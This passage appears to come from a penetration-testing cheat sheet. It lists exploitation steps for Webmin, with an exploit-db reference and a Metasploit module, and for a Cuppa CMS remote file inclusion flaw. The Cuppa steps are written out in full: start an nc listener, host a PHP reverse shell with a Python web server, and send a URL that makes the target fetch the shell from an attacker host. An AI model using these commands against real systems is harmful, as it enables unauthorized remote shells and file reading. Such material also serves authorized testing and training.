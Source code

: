 #### Exploitation

Webmin has many common vulnerabilities that you can find on the web along with publicly available exploits. **Version 1.580 and before** Exploit URL

```
https://www.exploit-db.com/exploits/21851
```

This exploit requires authenticated access to the Webmin admin console to succeeed. With Metasploit, we can use the below module

```
msf > use exploit/unix/webapp/webmin_show_cgi_exec
```

### Cuppa CMS

#### Definition

Cuppa is a content management system used to create and manage content Official URL

```
cuppacms.com
```

#### Impact

Successful exploitation of this vulnerability leads to reading local files on the system. Additionally the attacker can include remote files to establish reverse shells.

#### Manual Exploitation

Exploit URL

```
https://www.exploit-db.com/exploits/25971
```

* Run a listener on your machine

```
nc -lvp 4545
```

* Start a python server to host a php reverse shell

```
python -m http.server
```

* Trigger the target server to request the PHP reverse shell from your machine using the below link. Adjust below as needed.

```
http://target- ip/administrator/alerts/alertConfigField.php?urlConfig=http://attacker-ip:attacker-port/revshell.php
```

#### Elementor
